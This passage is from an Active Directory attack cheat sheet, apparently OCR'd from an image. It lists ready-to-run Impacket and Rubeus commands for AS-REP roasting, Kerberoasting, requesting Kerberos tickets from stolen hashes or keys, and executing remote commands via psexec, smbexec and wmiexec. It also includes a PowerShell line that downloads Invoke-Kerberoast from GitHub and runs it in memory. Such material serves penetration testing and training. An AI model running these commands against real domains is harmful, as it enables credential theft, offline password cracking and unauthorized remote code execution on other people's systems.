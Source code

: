 ```c
$ impacket-GetNPUsers <DOMAIN>/<USERNAME>:<PASSWORD> -request -format hashcat -outputfile <FILE>
$ impacket-GetNPUsers <DOMAIN>/<USERNAME>:<PASSWORD> -request -format john -outputfile <FILE>
```

**Check ASPREPRoast for a List of Users (No Credentials required)**

```c
$ impacket-GetNPUsers <DOMAIN>/ -usersfile <FILE> -format hashcat -outputfile <FILE>
$ impacket-GetNPUsers <DOMAIN>/ -usersfile <FILE> -format john -outputfile <FILE>
```

**Check ASPREPRoast for all Domain Users in Domain**

```c
C:\> .\Rubeus.exe asreproast  /format:hashcat /outfile:<FILE>
```

**Kerberoasting**

```c
$ python GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -outputfile <FILE>
C:\> .\Rubeus.exe kerberoast /outfile:<FILE>
PS C:\> iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
PS C:\> Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII <FILE>
PS C:\> Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII <FILE>
```

**Overpass The Hash/Pass The Key (PTK)**

**Request TGT with Hash**

```c
$ impacket-getTGT <DOMAIN>/<USERNAME> -hashes <LMHASH>:<NTLMHASH>
```

**Request TGT with aesKey (More secure Encryption, probably more stealth due is it used by Default)**

```c
$ impacket-getTGT <DOMAIN>/<USERNAME> -aesKey <KEY>
```

**Request TGT with Password**

```c
$ impacket-getTGT <DOMAIN>/<USERNAME>:<PASSWORD>
```

**Set TGT for Impacket Usage**

```c
$ export KRB5CCNAME=<USERNAME>.ccache
```

**Execute Remote Commands**

```c
$ impacket-psexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-smbexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
$ impacket-wmiexec <DOMAIN>/<USERNAME>@<RHOST> -k -no-pass
```
